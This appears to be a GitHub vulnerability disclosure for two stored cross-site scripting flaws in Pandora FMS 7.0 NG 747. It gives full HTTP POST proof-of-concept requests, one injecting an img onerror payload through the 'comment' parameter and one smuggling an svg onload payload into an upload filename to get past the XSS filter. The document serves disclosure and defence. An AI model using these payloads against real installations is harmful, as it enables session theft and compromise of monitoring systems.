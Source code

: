 # Pandora-FMS-7.0-NG-747-Stored-XSS-Vulnerabilities
Two stored cross-site scripting (XSS) in [Pandora FMS 7.0 NG 747](https://pandorafms.org/features/free-download-monitoring-software/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page. In addition, the existing XSS filter can be bypassed with the "<img" tag.

Pandora FMS 7.0 NG747 and older versions are affected by these vulnerabilities.


# PoC-1 (comment)
To exploit vulnerability, someone could use a POST request to '/pandora_console/ajax.php' by manipulating 'comment' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/ajax.php HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close
Cookie: PHPSESSID=a55pr5b4gff5ea1h0pms4csrk5

page=include/ajax/events&add_comment=1&event_id=7&comment=<img src=x onerror="alert(document.cookie)">&meta=0&history=0
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-02.png)

# PoC-2 (filename)
To exploit vulnerability, someone could use a POST request to '/pandora_console/index.php?sec=workspace&sec2=operation/incidents/incident_detail&id=3&upload_file=1' by manipulating 'filename' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/index.php?sec=workspace&sec2=operation/incidents/incident_detail&id=3&upload_file=1 HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------188134206132629608391758747427
Content-Length: 524
DNT: 1
Connection: close
Cookie: PHPSESSID=3098fl65su4l237navvq6d5igs
Upgrade-Insecure-Requests: 1

-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="userfile"; filename="\"><svg onload=alert(document.cookie)>.png"
Content-Type: image/png

"><svg onload=alert(1)>
-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="file_description"

desc
-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="upload"

Upload
-----------------------------188134206132629608391758747427--

```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v2-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v2-02.png)
